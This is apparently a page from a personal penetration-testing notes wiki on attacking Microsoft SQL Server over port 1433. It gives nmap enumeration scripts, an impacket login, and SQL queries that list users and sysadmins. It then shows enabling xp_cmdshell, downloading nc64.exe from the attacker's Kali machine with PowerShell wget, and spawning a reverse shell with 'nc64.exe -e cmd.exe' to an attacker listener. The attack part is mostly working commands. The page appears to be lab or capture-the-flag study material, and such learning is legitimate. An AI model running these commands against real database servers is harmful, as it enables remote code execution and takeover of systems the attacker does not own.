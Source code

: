 ```yaml
---
title: 1433 msSQL
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - mssql
  - port 1433
  - impacket
---
```


# 1433 msSQL

## Enumeration

If you don't know anything about the service:

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```


## Connect to a remote Microsoft SQL database

For that, we can use a package such as [impacket](impacket.md) and, specifically, the module mssqlclient.py module that you can find in the folder examples:

```bash
python3 mssqlclient.py username:password@targetIP -windows-auth
# With python3 mssqlclient.py help you can see more options.
```

## Basic commands

```
# Get Microsoft SQL server version
select @@version;

# Get usernames
select user_name();

# Get databases
SELECT name FROM master.dbo.sysdatabases;

# Get current database
SELECT DB_NAME();

# Get a list of users in the domain
SELECT name FROM master..syslogins

# Get a list of users that are sysadmins
 SELECT name FROM master..syslogins WHERE sysadmin = 1;

# And to make sure: 
SELECT is_srvrolemember(‘sysadmin’); 
# If your user is admin, it will return 1.
```

## Executing cmd shell in a SQL command line

Our goal can be to spawn a Windows command shell and pass in a string for execution. For that Microsoft SQL syntaxis has the command **xp_cmdshell**, that will allow us to use the SQL command line as a CLI. 

Because malicious users sometimes attempt to elevate their privileges by using xp_cmdshell, xp_cmdshell is disabled by default. But we can use sp_configure or Policy Based Management to enable it. 

**sp_configure** displays or changes global configuration settings for the current settings. This is how you may take advantage of it:

```msSQL
# To allow advanced options to be changed.   
EXECUTE sp_configure 'show advanced options', 1;  
  
# To update the currently configured value for advanced options.  
RECONFIGURE;  

# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
  
# To update the currently configured value for this feature.  
RECONFIGURE;  
```

Now we can use the msSQL terminal to execute commands:

```msSQL
# This will return the .exe files existing in the current directory
EXEC xp_cmdshell 'dir *.exe';

# To print a file
EXECUTE xp_cmdshell 'type c:\Users\sql_svc\Desktop\user.txt

# With this (and a "python3 -m http.server 80" from our kali serving a file) we can upload a file to the attacked machine, for instance a reverse shell like nc64.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe";

# We could also bind this cmd.exe through the nc to our listener. For that open a different tab in kali and do a "nc -lnvp 443". When launching the reverse shell, we'll get a powershell terminal in this tab by running:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe IPfromOurKali 443";
# You could also upload winPEAS and run it from this powershell command line
```


## Sources and resources

+ [nc64.exe](https://github.com/vinsworldcom/NetCat64/releases).
+ [Impacket](impacket.md): mssqlclient.py.  
+ [Pentesmonkey Cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet).
+ [book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).
+ [winPEAS](winpeas.md).




